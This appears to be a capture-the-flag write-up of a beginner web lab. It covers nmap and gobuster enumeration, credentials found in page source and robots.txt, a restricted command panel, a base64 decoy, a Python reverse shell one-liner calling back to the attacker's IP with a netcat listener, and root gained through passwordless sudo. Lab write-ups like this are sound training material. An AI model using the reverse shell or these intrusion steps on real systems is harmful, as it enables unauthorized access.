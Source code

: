 **Target IP :** 10.10.174.115

**My IP :** 10.23.53.161

# Reconnaissance

## Nmap Scan

Executed a service and port scan using nmap. Results saved in [initial.txt.](nmap/initial.txt)

```bash
nmap -T4 -A -o initial.txt 10.10.174.115
```



# Enumeration

## Directory Brute Force

Used gobuster to enumerate hidden files and directories. Results saved in [gobuster.txt.](gobuster/gobuster.txt)

```bash
gobuster dir -u http://10.10.174.115 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -o gobuster.txt -t 50
```

## Inspecting index.html

Discovered a username **R1ckRul3s** hidden in the HTML source.

![home page inspection](Screenshots/index.png)

## Checking robots.txt

Found a potential password or password hint.

![](Screenshots/robots.png)

Used the discovered username/password on /login.php.

![](Screenshots/login.png)



# Accessing the Web Portal

Successfully logged in at /login.php.

Found a command execution panel.

![](Screenshots/command.png)

## Limited Shell Execution

Only basic commands allowed (**cat** or **echo** denied).

Executed ls to list files.

![](Screenshots/ls.png)

Used this command to read the contents of the files.

```bash
grep . <filename>
```

## First Ingredient

The file **Sup3rS3cretPickl3Ingred.txt** contained the first key.

![](Screenshots/ingredient1.png)



## Clue file

I found a clue in the file that tells me to search in other directories, which is obvious.

![](Screenshots/clue.png)

# Rabbit Hole Distraction

In portal.php, found a suspicious Base64 string:

![](Screenshots/portal.png)

```bash
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```


After multiple rounds of decoding, the result was: **rabbit hole**

Confirmed it’s a decoy, not an actual path to escalation.



# Reverse Shell Access

Gained shell access using a **Python reverse shell payload:**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.23.53.161",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Netcat listener on attack box: 

```bash
nc -lvnp 1234
```

Successful reverse shell access confirmed.

![](Screenshots/reverse_shell_access.png)

# Home Directory Loot

Navigated to the user's home directory **/home/rick/** and found the second ingredient.

![](Screenshots/ingredient2.png)



# Privilege Escalation

## Sudo Enumeration:

When checking my privileges with the command **sudo -l**, the result shows that i can execute any root command without any password.

![](Screenshots/check_privs.png)

## Escalated to Root:

Immediate root shell access granted with the command :

```bash
sudo bash
```

![](Screenshots/root_connect.png)

The 3rd and final ingredient is :

![](Screenshots/ingredient3.png)

